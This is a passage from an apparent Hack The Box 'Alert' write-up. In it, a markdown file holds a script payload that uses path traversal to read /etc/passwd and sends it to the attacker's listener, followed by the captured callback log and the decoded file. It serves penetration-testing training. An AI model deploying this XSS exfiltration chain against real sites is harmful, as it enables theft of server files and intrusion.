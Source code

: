 ``` bash
❯ cat test.md
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/passwd")
    .then(response => response.text())
    .then(data => {
    fetch("http://10.10.14.9/?shiro=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

Repeat the exploit steps above to get the call back.

```bash
10.10.14.9 - "GET /?shiro=%0A HTTP/1.1" 200 -
10.10.11.44 - "GET /?shiro=%3Cpre%3Eroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fbash%0Adaemon%3Ax%3A1%3A1%3Adaemon%3A%2Fusr%2Fsbin%3A%2Fusr%2Fsbin%2Fnologin%0Abin%3Ax%3A2%3A2%3Abin%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Asys%3Ax%3A3%3A3%3Asys%3A%2Fdev%3A%2Fusr%2Fsbin%2Fnologin%0Async%3Ax%3A4%3A65534%3Async%3A%2Fbin%3A%2Fbin%2Fsync%0Agames%3Ax%3A5%3A60%3Agames%3A%2Fusr%2Fgames%3A%2Fusr%2Fsbin%2Fnologin%0Aman%3Ax%3A6%3A12%3Aman%3A%2Fvar%2Fcache%2Fman%3A%2Fusr%2Fsbin%2Fnologin%0Alp%3Ax%3A7%3A7%3Alp%3A%2Fvar%2Fspool%2Flpd%3A%2Fusr%2Fsbin%2Fnologin%0Amail%3Ax%3A8%3A8%3Amail%3A%2Fvar%2Fmail%3A%2Fusr%2Fsbin%2Fnologin%0Anews%3Ax%3A9%3A9%3Anews%3A%2Fvar%2Fspool%2Fnews%3A%2Fusr%2Fsbin%2Fnologin%0Auucp%3Ax%3A10%3A10%3Auucp%3A%2Fvar%2Fspool%2Fuucp%3A%2Fusr%2Fsbin%2Fnologin%0Aproxy%3Ax%3A13%3A13%3Aproxy%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Awww-data%3Ax%3A33%3A33%3Awww-data%3A%2Fvar%2Fwww%3A%2Fusr%2Fsbin%2Fnologin%0Abackup%3Ax%3A34%3A34%3Abackup%3A%2Fvar%2Fbackups%3A%2Fusr%2Fsbin%2Fnologin%0Alist%3Ax%3A38%3A38%3AMailing%20List%20Manager%3A%2Fvar%2Flist%3A%2Fusr%2Fsbin%2Fnologin%0Airc%3Ax%3A39%3A39%3Aircd%3A%2Fvar%2Frun%2Fircd%3A%2Fusr%2Fsbin%2Fnologin%0Agnats%3Ax%3A41%3A41%3AGnats%20Bug-Reporting%20System%20(admin)%3A%2Fvar%2Flib%2Fgnats%3A%2Fusr%2Fsbin%2Fnologin%0Anobody%3Ax%3A65534%3A65534%3Anobody%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-network%3Ax%3A100%3A102%3Asystemd%20Network%20Management%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-resolve%3Ax%3A101%3A103%3Asystemd%20Resolver%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-timesync%3Ax%3A102%3A104%3Asystemd%20Time%20Synchronization%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Amessagebus%3Ax%3A103%3A106%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asyslog%3Ax%3A104%3A110%3A%3A%2Fhome%2Fsyslog%3A%2Fusr%2Fsbin%2Fnologin%0A_apt%3Ax%3A105%3A65534%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Atss%3Ax%3A106%3A111%3ATPM%20software%20stack%2C%2C%2C%3A%2Fvar%2Flib%2Ftpm%3A%2Fbin%2Ffalse%0Auuidd%3Ax%3A107%3A112%3A%3A%2Frun%2Fuuidd%3A%2Fusr%2Fsbin%2Fnologin%0Atcpdump%3Ax%3A108%3A113%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Alandscape%3Ax%3A109%3A115%3A%3A%2Fvar%2Flib%2Flandscape%3A%2Fusr%2Fsbin%2Fnologin%0Apollinate%3Ax%3A110%3A1%3A%3A%2Fvar%2Fcache%2Fpollinate%3A%2Fbin%2Ffalse%0Afwupd-refresh%3Ax%3A111%3A116%3Afwupd-refresh%20user%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Ausbmux%3Ax%3A112%3A46%3Ausbmux%20daemon%2C%2C%2C%3A%2Fvar%2Flib%2Fusbmux%3A%2Fusr%2Fsbin%2Fnologin%0Asshd%3Ax%3A113%3A65534%3A%3A%2Frun%2Fsshd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-coredump%3Ax%3A999%3A999%3Asystemd%20Core%20Dumper%3A%2F%3A%2Fusr%2Fsbin%2Fnologin%0Aalbert%3Ax%3A1000%3A1000%3Aalbert%3A%2Fhome%2Falbert%3A%2Fbin%2Fbash%0Alxd%3Ax%3A998%3A100%3A%3A%2Fvar%2Fsnap%2Flxd%2Fcommon%2Flxd%3A%2Fbin%2Ffalse%0Adavid%3Ax%3A1001%3A1002%3A%2C%2C%2C%3A%2Fhome%2Fdavid%3A%2Fbin%2Fbash%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

Decoding the encoded text reveals the `/etc/passwd` contents.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```